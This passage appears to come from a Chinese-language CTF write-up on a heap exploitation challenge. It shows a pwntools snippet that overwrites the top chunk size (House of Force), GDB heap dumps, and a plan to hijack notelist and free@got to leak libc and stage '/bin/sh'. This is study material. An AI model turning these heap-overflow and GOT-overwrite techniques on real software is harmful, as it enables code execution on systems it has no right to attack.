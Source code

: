```
0x81780a0:	0x62626262	0x62626262	0x62626262	0x62626262
0x81780b0:	0x62626262	0x62626262	0x62626262	0x62626262
0x81780c0:	0x62626262	0x62626262	0x62626262	0x62626262
0x81780d0:	0x62626262	0x62626262	0x08178098	0x63636363
0x81780e0:	0x63636363	0x63636363	0x63636363	0x63636363
0x81780f0:	0x63636363	0x63636363	0x63636363	0x63636363
0x8178100:	0x63636363	0x63636363	0x63636363	0x63636363
0x8178110:	0x63636363	0x63636363	0x63636363	0x00000000
0x8178120:	0x00000000	0x00000000	0x00000000	0x00000000
0x8178130:	0x00000000	0x00000000	0x00000000	0x00000000
0x8178140:	0x00000000	0x00000000	0x00000000	0x00000000

```

exp如下：

```python
p.recvuntil("Org:\n")
p.send("b" * 0x40)
p.recvuntil("Host:\n")
p.sendline(p32(0xffffffff) + "c" * 0x3c)
```

结果如下：

```
gef➤  heap chunks
Chunk(addr=0x877b008, size=0x48, flags=PREV_INUSE)
    [0x0877b008     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x877b050, size=0x48, flags=PREV_INUSE)
    [0x0877b050     ff ff ff ff 63 63 63 63 63 63 63 63 63 63 63 63    ....cccccccccccc]
Chunk(addr=0x877b098, size=0x48, flags=PREV_INUSE)
    [0x0877b098     62 62 62 62 62 62 62 62 62 62 62 62 62 62 62 62    bbbbbbbbbbbbbbbb]
Chunk(addr=0x877b0e0, size=0xfffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  top chunk

```

所以就可以实现任意写了

#### leak libc

由于程序中没有leak的功能，我们要实现leak libc，需要劫持某个got表为最一开始打印用户名的函数，而且这个libc函数的参数还需要我们能控制，所以我们只能选择free函数。

因为程序是通过notelist管理chunk，所以只要我们劫持了notelist，也就可以实现任意地址读写。

所以我们将chunk分配到notelist之前，然后依次修改notelist上前几项为：

```
puts@got # 0
free@got # 1
&notelist[3] # 2
/bin # 3
/sh\x00 4
```

首先edit(1)，劫持free@got为info函数，然后delete(0)，即可leak出libc。
